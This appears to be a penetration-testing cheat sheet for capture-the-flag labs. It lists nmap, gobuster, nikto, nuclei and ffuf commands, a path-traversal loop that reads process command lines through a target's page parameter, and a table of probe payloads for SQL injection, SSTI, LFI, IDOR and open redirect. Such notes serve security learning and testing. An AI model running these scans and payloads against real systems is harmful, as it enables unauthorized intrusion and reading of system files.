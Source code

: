 ```
nmap -sT -p- airplane.thm -T4
nmap -T4 -n -sC -sV -Pn -p-

```

### Web
```
gobuster dir -u https://my.target.site -w /usr/share/wordlists/dirb/big.txt
nikto -h https://my.target.site -p [port]
nuclei -target https://my.target.site -rl 4 # default script with rate limit
nuclei -u https://my.target.site -t myscript.yaml -t myscript_2.yaml <...> -t cves/ -t Exposure/
ffuf -u https://my.target.site/FUZZ -w /path/to/your/wordlist.txt -mc 200
nf -d example.com # https://github.com/0xKayala/NucleiFuzzer
```

### AD

### Linux

### 

```
$ for i in {1..1000}; do echo -n "\r$i"; out=$(curl -s "https://my.target.site?page=../../../../../proc/$i/cmdline" | sed 's/\x00/ /g' | grep -v 'Page not found'); if [ -n "$out" ]; then echo "\r$i : $out"; fi; done
```

|Findings     |Possible vector         |
|-------------|------------------------|
|/?file=      |LFI PathTraversal|
|/profile?id=2|IDOR|
|Content-Type: application/x-www-form-urlencoded <br>message={{7*7}}|SSTI|
|product_id=1001&quantity=-1|BuzLogic|
|username=admin&password=' OR '1'='1|SQLi|
|/redirect?url=http://malicious.com|OpenRedirect|
|Cookie: session=user1|Misconfig, UnsecureCookie|

### Next steps
https://book.hacktricks.xyz/

